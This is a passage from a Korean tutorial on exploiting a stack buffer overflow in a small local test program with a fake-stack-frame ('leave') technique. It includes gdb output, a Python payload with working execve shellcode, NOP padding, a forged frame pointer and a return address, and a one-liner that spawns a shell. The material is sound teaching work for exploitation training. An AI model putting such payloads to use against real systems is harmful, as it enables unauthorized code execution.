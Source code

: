 따라서 SFP 에서 buf 주소를 빼면 40(64bytes) 가 나온다. 즉 buf와 SFP는 64bytes 만큼 떨어져 있다.

아무런 값을 넣어준뒤 LEAVE 명령어에서 멈추었다.

```
─── Output/messages 
buf[50] address : 0x7fffffffe450
aaaaaaaaaa

Breakpoint 2, 0x0000000000400573 in vuln ()
>>>  
```

아래와 같은 명령어로 LEAVE 명령어의 주소를 알 수 있다.

```
>>> i r $rip
rip            0x400573 0x400573 <vuln+60>
>>> 
```

최종적으로 얻은 정보를 정리하면
- buf 주소 : 0x7fffffffe450
- buf와 SFP 간의 거리 : 64bytes
- LEAVE 주소 : 0x0000000000400573

개념을 설명할때 payload의 형식을 알려줬다. 이제 본인이 직접 생각하면서 payload를 짜 보길 바란다.

payload는 다음과 같다.

```python
buf_plus_8 = "\x58\xe4\xff\xff\xff\x7f\x00\x00"
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
nop = "\x90"*29
sfp = "\x48\xe4\xff\xff\xff\x7f\x00\x00"
leave = "\x73\x05\x40\x00\x00\x00\x00\x00"

payload = buf_plus_8 + shellcode + nop + sfp + leave
```

이를 입력값으로 넘겨주면 shell을 획득할 수 있는 것을 볼 수 있다.

```
$ (python -c 'print "\x58\xe4\xff\xff\xff\x7f\x00\x00"+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x90"*29+"\x48\xe4\xff\xff\xff\x7f\x00\x00"+"\x73\x05\x40\x00\x00\x00\x00\x00"'; cat) | ./test
buf[50] address : 0x7fffffffe450

ls
code	code.c

```

------

### 0x4 Using pwntool
